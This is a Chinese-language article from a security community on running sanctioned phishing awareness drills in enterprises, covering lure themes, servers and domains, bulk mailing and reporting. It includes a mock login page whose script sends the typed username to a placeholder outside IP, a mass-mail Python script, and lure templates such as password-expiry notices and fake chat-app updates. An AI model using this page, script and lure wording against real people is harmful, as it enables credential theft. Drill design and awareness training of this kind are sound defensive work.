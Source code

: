 

# 企业钓鱼演练的一些总结和经验 - 先知社区

企业钓鱼演练的一些总结和经验

- - -

# 前言

钓鱼，搞攻防的师傅们，做红队的师傅们都知道，但是对于在企业实施演练，具体的各种细节，只有经历过一次，把坑踩过了，才知道一些注意事项，阿鑫分享一下大型企业钓鱼演练的一些总结和经验，希望下次有师傅做这个，能够看到阿鑫的文章，避免踩到坑

# 钓鱼准备

首先是我们攻击方，需要准备的东西，钓鱼的主题，服务器，域名，邮件服务器这三样东西，我们一个一个细说  
关于钓鱼的主题，可能是钓账号密码，可能是是恶意附件钓鱼演练。  
主题定了，最重要的是要给领导们看数据：  
如果是恶意附件钓鱼演练，相应的企业对于一些恶意附件的点击可以做一个数据统计，这个比较简单，多少人点了，多少人没有点，这个数据比较直接，钓鱼的恶意附件的 demo 就是弹框，温馨的提示员工们不要随意运行不信任的文件，顺便在附上一个链接，链接里面的内容就是各种办公安全的小 tips 啥的，然后还需要建立一个公关群，给员工们答疑，此外，恶意附件一般可通过邮件发送，当然，如果公司的体量巨大，那我们还有以下几点需要注意：  
（1）邮件肯定是有策略的，我们需要多和邮件部门的同学沟通多要几个账号，以及邮件内容尽量减少触发风控的规则  
（2）文件白名单，某些企业对于未知的应用是有弹框的，可以考虑和文件白名单的同学沟通

如果是钓账号密码，领导同意做一个交互的页面，能够存储输入的账密，那这方面的数据没有问题，也可以判断出脏数据。如果是比较大的企业，你做钓鱼演练，如果真的有员工中招了，输入了自己的账号密码，引发了数据泄露问题或者一些公关问题，所以可能就需要一个前提，在不交互的情况下如何记录数据，这里给出的解决方案是在输入的用户名处记录用户名并且跳转

```plain
<!DOCTYPE html>
<form action="">
Username: <input type="text" name="user" id="useraccount"><br>
Password: <input type="password" name="password" id="userpass">
<div class="test">
<input type="button" value="确定" onclick="check();">
</div>
<script>
function check(){
    var obj = document.getElementById("useraccount");
        if(obj.value === ""){
            alert("输入不能为空！");
            return false;
        }else{
        window.location.href = 'http://1.2.2.2/index.html?user='+document.getElementById("useraccount").value;
      return true;
        }
    }
 </script>
</form>
```

[![](assets/1705886696-061bea8aaf99ac13049c041a8e9d0782.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20221015182102-11ec3f14-4c73-1.jpg)  
下图为简单的实现效果，然后我们就可以查看服务器的 apache 日志记录相关的信息了，这是静态的页面收集信息的方法，此外，最简单的制作一个登陆页面的方法就是 ctrl+s 保存一下就行了，但是我们一定的把 html 里面自己的相关信息给删除掉（工号）

接下来说一说服务器，服务器就和域名一起说了吧，这个也是踩坑最多的，域名的话尽量和公司高度重合，像 BAT 这种大厂，他们也几乎把自己相似的域名全买了，也防止别有用心的人搞事，如果领导在短期内突然告诉你需要钓鱼，域名报备这一流程至少的花一周的时间，这个时候推荐用海外的服务器，即可解决。选服务器也一定要征求领导的意见，因为服务器涉及了钓鱼演练最核心的数据交互环节，一定要再三和领导确认用哪一家的服务器，腾讯云，阿里云都有国际版。服务器选择好了（建议 1 核 2G，体量大就 2 核 4G），现在需要对服务器做压力测试，公司人少的话或者抽样钓鱼可不用测，体量大的话这一环节必不可少，我推荐用 http\_load。然后部署的话就正常用 apache 或者 nginx，ssh 或者 smb 别用弱口令就行，多余的服务，什么 redis 啊这些就别开了

最后说一说邮件服务器，网上已经有很多文章在介绍 gophish 配合 ewomail 打组合拳，或者配合 postfix，网上有很多这种类似的文章，但是当企业的领导认为这不符合安全合规或者存在数据安全的风险，那么这条路就是不行的，如果公司跟云企业（腾讯云，华为云，阿里云等）是合作关系，可以询问领导的意见是否可以用他们的企业邮箱，他们的企业邮箱都是自带了邮件服务器，而且有各种 api 接口，后面体量比较大的话，批量发送邮件这个问题也能解决，比如阿里云的企业邮箱，我这里直接把代码 copy 过来。

```plain
# -*- coding:utf-8 -*-

import urllib, urllib2
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.application import MIMEApplication
from email.header import Header

# 发件人地址，通过控制台创建的发件人地址
username = 'xxx@xxx.com'
# 发件人密码，通过控制台创建的发件人密码
password = 'XXXXXXXX'

# 收件人地址列表，支持多个收件人，最多 30 个
rcptlist = ['to1@to.com', 'to2@to.com']
receivers = ','.join(rcptlist)

# 构建 multipart 的邮件消息
msg = MIMEMultipart('mixed')
msg['Subject'] = 'Test Email'
msg['From'] = username
msg['To'] = receivers

# 构建 multipart/alternative 的 text/plain 部分
alternative = MIMEMultipart('alternative')
textplain = MIMEText('纯文本部分', _subtype='plain', _charset='UTF-8')
alternative.attach(textplain)

# 构建 multipart/alternative 的 text/html 部分
texthtml = MIMEText('超文本部分', _subtype='html', _charset='UTF-8')
alternative.attach(texthtml)

# 将 alternative 加入 mixed 的内部
msg.attach(alternative)

# 附件类型
# xlsx 类型的附件
xlsxpart = MIMEApplication(open('测试文件 1.xlsx', 'rb').read())
xlsxpart.add_header('Content-Disposition', 'attachment', filename=Header("测试文件 1.xlsx","utf-8").encode())
msg.attach(xlsxpart)

# jpg 类型的附件
jpgpart = MIMEApplication(open('2.jpg', 'rb').read())
jpgpart.add_header('Content-Disposition', 'attachment', filename=Header("2.jpg","utf-8").encode())
msg.attach(jpgpart)

# mp3 类型的附件
mp3part = MIMEApplication(open('3.mp3', 'rb').read())
mp3part.add_header('Content-Disposition', 'attachment', filename=Header("3.mp3","utf-8").encode())
msg.attach(mp3part)

# 发送邮件
try:
    client = smtplib.SMTP()
    #python 2.7 以上版本，若需要使用 SSL，可以这样创建 client
    #client = smtplib.SMTP_SSL()

    client.connect('smtpdm.aliyun.com')
    client.login(username, password)
    #发件人和认证地址必须一致
    client.sendmail(username, rcptlist, msg.as_string())
    client.quit()
    print '邮件发送成功！'
except smtplib.SMTPRecipientsRefused:
    print '邮件发送失败，收件人被拒绝'
except smtplib.SMTPAuthenticationError:
    print '邮件发送失败，认证错误'
except smtplib.SMTPSenderRefused:
    print '邮件发送失败，发件人被拒绝'
except smtplib.SMTPException,e:
    print '邮件发送失败，', e.message
```

此外，批量发送每天发送的邮件数量有上限，需要合理安排每天发送钓鱼邮件的数量。

# 钓鱼期间

钓鱼期间我们需要随时查看钓鱼的数据和情况，比如邮件发送成功率这些（邮件服务器都有这些统计的功能），然后还要统计一下数据（这里以登陆口钓鱼举例）：  
（1）有多少同学只是点进去看了邮件  
（2）有多少同学点进去看了邮件并且访问了恶意网站  
（3）有多少同学访问了恶意网站输入了账密（乱输的）  
（4）有多少同学访问了恶意网站输入了账密（正确的用户名即可）  
（5）有多少同学举报了今天收到了钓鱼邮件  
钓鱼期间，一定需要建立公关答疑群，不管公司体量大还是小，因为许多同事可能真的没有什么安全经验，输入了自己的账号密码或者运行了恶意附件，然后也不知道找谁问问，又或者胡思乱想公司是不是考验我啥的或者和绩效挂钩？所以答疑群是必要的，此外，答疑群的部分同学甚至可以给出一些比较好的意见，我们也可以在钓鱼期间优化。

这里再说一说关于钓鱼文案，因为钓鱼的文案直接关乎了钓鱼成功率，这里有一个小技巧，我们可以打开公司公司的邮件，他们有图片，有颜文字，邮件其实也是 html 格式的，我们可以直接模仿，有图片，有颜文字的邮件可以起到一个更逼真的效果，咱们企业内部钓鱼，什么晋升，加薪，年假这些可千万不能用，很敏感的，如果要正常的登陆口钓鱼，我们可以用以下文案：  
（1）账号异常类（登陆认证过期，密码过期，账号异常等）  
（2）关于程序员需要知道的知识点（类似于这种），访问后就需要输入账号密码

如果是附件钓鱼的，我们可以用一下文案：  
（1）看公司用的啥通信软件（飞书，企业微信，钉钉），说这几款软件需要更新，需要运行我们的附件  
（2）系统更新，兼容性插件

此外，建议同一个部门别再一个时间发送，不然其他同事会相互讨论，你们有收到这封邮件么，以及相似的文案，不能相同，比如有 5 个钓鱼的邮件账号，我们这 5 个钓鱼的文案可以相似，但不能完全一模一样。

# 结尾

最后肯定就是把数据呈现给领导，发了多少封钓鱼邮件，多少输了账密，看钓鱼期间需要统计的数据，企业员工的网络安全意识也不是一朝一夕就可以发展好的，需要长久的宣传
